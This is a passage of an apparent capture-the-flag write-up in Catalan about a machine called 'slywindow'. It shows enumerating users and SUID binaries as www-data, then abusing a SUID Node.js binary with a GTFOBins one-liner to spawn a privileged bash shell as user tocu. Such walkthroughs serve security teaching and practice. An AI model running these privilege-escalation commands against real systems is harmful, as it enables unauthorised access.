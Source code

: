 ## Moviment lateral a l'usuari tocu

Estabilitzem la shell per facilitar el seu ús i enumerem els usuaris presents al sistema, identificant `tocu` i `root`.

```bash
www-data@slywindow:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tocu:x:1000:1000:tocu,,,:/home/tocu:/bin/bash
```

Enumerem els arxius amb el bit SUID habilitat per identificar possibles vectors d'escalada de privilegis.

```bash
find / -perm -4000 2> /dev/null
```

```bash
www-data@slywindow:/dev/shm$ find / -perm -4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/opt/backup/backup_utility
/opt/loginandvisit/tocunode
```

Identifiquem dos binaris potencialment interessants. Analitzem ambdós per determinar la seva funcionalitat: no disposem de permisos d'execució sobre `/opt/backup/backup_utility`, però sí podem executar `/opt/loginandvisit/tocunode`.

```bash
www-data@slywindow:/dev/shm$ ls -lh /opt/loginandvisit/tocunode
-rwsr-sr-x 1 tocu tocu 116M Jul 30 20:44 /opt/loginandvisit/tocunode
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode  
Welcome to Node.js v22.17.1.
Type ".help" for more information.
> 
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
> 
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode --version
v22.17.1
```

Es tracta d'una còpia de Node.js propietat de l'usuari `tocu` amb el bit SUID habilitat. Consultant GTFOBins, identifiquem una tècnica per aprofitar aquest binari i escalar privilegis, obtenint accés com l'usuari `tocu`.

```bash
/opt/loginandvisit/tocunode -e 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})'
```

